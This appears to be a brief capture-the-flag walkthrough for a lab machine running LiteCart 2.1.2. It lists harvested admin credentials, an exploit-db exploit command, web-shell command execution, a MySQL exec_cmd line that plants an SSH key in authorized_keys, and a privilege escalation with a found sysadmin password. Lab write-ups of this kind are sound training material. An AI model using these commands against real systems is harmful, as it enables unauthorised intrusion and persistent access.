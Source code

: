 	 http://10.10.10.207/shop/admin/.log2301c9430d8593ae.txt
	  
 find creds User: admin Passwd: theNextGenSt0r3!~
	  
 This creds on page:
	  
 http://10.10.10.207/shop/admin/
  

 >Version - "LiteCart 2.1.2"
  
 `Exploit for it: https://www.exploit-db.com/exploits/45267`
  

 +++++++ ACTIONS: ++++++++++++
  
 In one directory:
  
 \-create file mybypass.php (content below)
  
 \-modify exploit 45267.py (content below)
  
 Then:
  
 python 45267.py -t http://10.10.10.207/shop/admin/ -p 'theNextGenSt0r3!~' -u admin
  
 And possible in browser:
  
 http://10.10.10.207/shop/vqmod/xml/mybypass.php?c=id
  
 result:
  
 uid=33(www-data) gid=33(www-data) groups=33(www-data)
  
 ++++++++++++++++++++++++++++++++++++++
  
 \- create file pshell.sh (content below) and chmod +x pshell.sh
  
 start it: ./pshell.sh and get pseudoshell
  
 Command:
  
	mysql -u root -pchangethis -e "select exec\_cmd('echo YOUR\_id\_rsa.pub > /var/lib/mysql/.ssh/authorized\_keys')"
  

 And connect:
  
	ssh -i /your path/.ssh/id\_rsa mysql@10.10.10.207

	mysql@compromised:~$ grep -nlri sysadmin
  
 result: strace-log.dat
  
 There is password for user sysadmin inside, and further:
  
	mysql@compromised:~$ su sysadmin
  
 with password 3\*NLJE32I$Fe
  
 Inside /home/sysadmin get user.txt
  

 \========== POSSIBLE: =============================
  
	ssh sysadmin@10.10.10.207 with password 3\*NLJE32I$Fe
  